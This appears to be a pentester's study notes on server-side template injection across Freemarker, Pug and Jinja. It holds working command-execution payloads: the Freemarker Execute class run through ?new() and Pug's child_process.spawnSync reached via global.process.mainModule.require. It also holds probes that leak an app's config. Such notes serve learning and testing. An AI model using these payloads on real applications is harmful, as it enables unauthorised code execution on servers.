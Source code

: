 #### Freemarker
```java
<h1>Hello ${name}!</h1> // INTERPOLATION $
<#if name == "allenxd"> //FTL TAG starts with #
The top reasons you're great:
  <#list reasons as reason> 
   ${reason?index + 1}: ${reason}
  </#list>
</#if>
```
  - more prone to xss as sometimes html is not escaped `<i>a</i>`
  - `${7*7}` ok `${7*'7'}` not 
  - `${"freemarker.template.utility.Execute"?new()("whoami")}`

#### Pug (jade) [PAYLOAD GENERATOR](https://github.com/VikasVarshney/ssti-payload)
```javascript
h1 Hello, #{name}
input(type='hidden' name='allenxd' value='true')

if showSecret
  - secret = ['x','y', 'z']
  p The secrets are: 
  each val in secret
    p #{val}
else
  p No secret for you!
  ```
  - Commonly integrated with Express framework in a Nodejs app  
  - `#{name}`
  - `child_process.spawnSync` executes commands (is not accessible by default need to require)
    - can be checked by `= require` if no access use `= global.process.mainModule.require`

PAYLOAD
```javascript
- var require = global.process.mainModule.require 
= require('child_process').spawnSync('whoami').stdout // will result to [object Object] without .spawnSync
```

#### Jinja
```python
<h1>Hey {{ name }}</h1>
{% if reasons %}
henlo here are the reasons:
<ul>
{% for r in reasons %}
	<li>{{r}}</li>
{% endfor %}
</ul>
{% endif %}
```
  - `{{5*"5"}}` = `55555`
  - `{{config|pprint}}`
